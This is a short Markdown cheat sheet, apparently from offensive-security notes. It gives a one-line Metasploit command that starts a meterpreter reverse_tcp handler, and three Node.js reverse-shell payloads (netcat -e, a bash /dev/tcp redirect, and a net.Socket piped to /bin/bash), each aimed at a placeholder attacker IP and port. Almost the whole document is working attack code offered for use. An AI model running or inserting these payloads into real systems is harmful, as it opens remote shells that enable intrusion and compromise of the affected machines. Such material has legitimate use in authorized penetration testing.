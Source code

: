 # Miscellaneous

---

### Table of Contents
- [Metasploit Handler Oneliner](#metasploit-handler-oneliner)
- [Reverse Shell JavaScript](#reverse-shell-javascript)

---

## Metasploit Handler Oneliner
- Create a `Metasploit` handler in one line

```bash
# E.g. Metapreter Reverse TCP
msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST <attacker_ip>;set LPORT <port>;run;"
```

## Reverse Shell JavaScript
- Context specific, e.g. without URL encode

```js
// NOT OpenBSD netcat, doesn't know -e
require("child_process").exec('nc <attacker_ip> <port> -e /bin/bash')

// Important: Use backticks here
process.mainModule.require('child_process').execSync(`bash -c 'bash -i >& /dev/tcp/<attacker_ip>/<port> 0>&1'`)

// Another approach
var net = require("net"), sh = require("child_process").exec("/bin/bash");
var client = new net.Socket();
client.connect(4444, "<attack_ip>", function(){client.pipe(sh.stdin);sh.stdout.pipe(client);
sh.stderr.pipe(client);});
```
